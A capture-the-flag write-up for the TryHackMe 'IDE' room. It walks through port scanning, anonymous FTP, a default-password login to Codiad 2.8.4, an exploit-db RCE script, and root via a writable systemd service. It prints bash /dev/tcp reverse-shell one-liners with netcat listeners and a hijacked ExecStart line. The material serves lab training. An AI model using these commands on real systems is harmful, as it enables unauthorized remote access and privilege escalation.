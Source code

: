 # IDE
This writeup is intended for IDE room in [TryHackMe](https://tryhackme.com).

Table of Contents
=================
* [URL](#URL)
* [Introduction](#Introduction)
	* [Port scan](#Port-scan)
	* [Further port scan](#Further-port-scan)
* [FTP login](#FTP-login)
* [HTTP login](#HTTP-login)
* [Exploiting HTTP server](#Exploiting-HTTP-server)
* [Privillege Escalation](#Privillege-Escalation)
	* [Home Directory](#Home-Directory)
	* [SSH Login](#SSH-Login)
	* [FTP Exploitation](#FTP-Exploitation)

# URL

URL to the IDE room is: https://tryhackme.com/room/ide

# Introduction

IDE is an easy difficulty box intended for further developing enumeration skills.
The task is to gain shell access on the box and escalate privilleges.

## Port scan
I started this room with simple port scan using `nmap`. The command I have used was `sudo nmap -vv -sS -oN -p- initial_scan.txt IP`. Explanation of the used flags is presented below:

```
sudo - gives nmap root privilleges.
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-sS - SYN (stealth) scan. Checks the status of ports by initiating TCP connections but never completing them.
-p- - specify ports to be scanned. Hyphen (-) indicates to scan all 65535 ports.
-oN - normal output is redirected to a given filename (in this case - initial_scan.txt).
IP - IP address of the target machine.
```

Finished scan found ***4*** open TCP ports. These ports are: ***21***, ***22***, ***80*** and ***62337***.

## Further port scan

Now let's do a more throughout scan of these ports with the command `nmap -vv -A -p 21,22,80,62337 -oN open_ports.txt IP`. Expanation for this command is presented below:

```
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-A - aggresive scan options. Enables OS edection (-O), version scanning (-sV), script scanning (-sC) and traceroute (--traceroute) flags.
-p - specify ports to scan.
-oN - normal output is redirected to a given filename (in this case - open_ports.txt).
IP - IP address of the target machine.
```

This scan gave more information about the ports open and services running on top of them. Let's take a look at the newly found information:
1. Port `21` is running FTP service and it's version `vsftpd 3.0.3`.
	a. ftp-anon script scan results indicates that Anonymous FTP login is allowed.
2. Port `22` is running SSH service.
3. Port `80` is running Apache HTTP service.
4. Port `62337` is running another HTTP service.
	a. http-title of this server is Codiad 2.8.4. This specific version of Codiad has a vulnerability which allows Remote Code Execution (RCE) attacks and is a possible attack vector for privillege escalation on this system.

# FTP login

Next I will try anonymous login to the FTP service. The command for connecting to the FTP server is `ftp IP`, where `IP` is IP address of the target machine. When prompted for Username, type `anonymous` and leave the Password field empty.
When I had logged in to the FTP server, strangely I found no files in here. So I have used the `ls -lah` command for more information and found ***three*** directories here:
1. `.` and `..` are standard directories on UNIX-like operating systems.
2. `...` is ***not*** a standard directory.
I went to this directory with `cd` command and found a `-` file, which I have downloaded to host machine with FTP's `GET` command.
Then I have changed the name of the file from `-` to a `file` and gave it a `.txt` extension.
After that I have opened the file with a text editor and found a message in here:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

This gives us a couple of usernames - `john` and `drac`. Also, it says that the password for user `john` has been reset and is set to default. Likely, this is the user of the webserver at port `62337`. Well, if the user has default password, it should not be hard to guess it... :)

# HTTP login

So I have logged into the server via `Firefox` browser with the username `john` and password `password` and it opens an web-based ***Codiad 2.8.4*** administration panel with some python scripts. Based on the scripts, this server is used for controlling IP cameras and is the one we need to gain shell access to.

# Exploiting HTTP server

The specific Codiad version used in this box has a well described remote shell upload vulnerability, for which the code can be found [on the exploit-db site here](https://www.exploit-db.com/exploits/49705).
	So, I have downloaded this exploit to the attackbox and named it `codiad_exploit.py`. Following parameters needs to be specified for the script to run successfully:
1. ***URL*** of the target webserver. It consists of ***IP address*** and the ***Port number*** of the target webserver.
2. ***Username*** of the webserver's user.
3. ***Password*** of the same user.
4. ***IP address*** of the attacking machine.
5. ***Port*** that is used to listen to the reverse shell.
6. ***Platform*** that is running on the server (Windows or Linux).
	a. When I opened Codiad administration panel within Firefox I found out that the files within the server are located in `/var/www/html` directory, so it can be conducted that this webserver is hosting Linux.
For succesfully running this exploit, ***3 terminal instances*** need to be used:
1. In ***the first terminal***, the command for server exploitation is constructed:
	a. `python3 codiad_exploit.py http://<target-ip>:<target-port> john [REDACTED] <attacker-ip> <listening-port> linux`.
2. From the exploit a reverse shell command is given to execute on a ***second terminal***.
	a. Command for this is: `echo `bash -c "bash -i > /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1 2>&1"` | nc -lnvp <listening-port>`.
3. On the ***third terminal*** a ***netcat listener*** is set up.
	a. Command for this is `nc -lnvp <listening-port>+1`.
After the payload is sent, on the terminal with netcat listener there is an access to the target's shell - `www-data@ide`.

# Privillege Escalation

## Home Directory

Now it is necessary to navigate to the webserver's ***home*** directory. There is the folder for user `drac`. Within this directory there is the `user.txt` file. Although permission to view this file is denied at this stage. Luckily, `.bash_history` file is readable and contains the `mysql` user `drac` and this user's password.

## SSH Login

Although previously found credentials were intended for mysql, I have tried to SSH into the webserver with them and I succeeded to do that. Now I am inside a directory, where I ***have*** permissions to read `user.txt` file. Now it is possible to read this flag - a task that I will leave to the reader :)

## FTP Exploitation

By further analyzing the compromised system I was able to find out that the user `drac` is able to run `sudo` command. On `ide` server it can run `/usr/sbin/service vsftpd restart` command.
By using `locate` command I will search for `vsftpd.service` file.
The command gives back a bunch of `vsftpd.service` files but the most interesting one is located at `/lib/systemd/system/vsftpd.service` - this one can be written to by the user `drac`. It is possible to add a ***reverse shell payload*** to this file, so that when the FTP service is restarted, the server automatically connects to the listener that was set up earlier and gives root access to it.
When this file is opened, `ExecStart=` command needs to be changed to the reverse shell payload:

`ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1'`

Save the file and restart FTP service with `sudo /usr/sbin/service vsftpd restart`. It gives a warning to reload units with `systemctl daemon-reload`. Reload the units and restart the FTP service again. Volia, the netcat listener should have access to the root shell of the webserver!
Now navigate to the `root` folder and grab the flag from the `root.txt`file :)
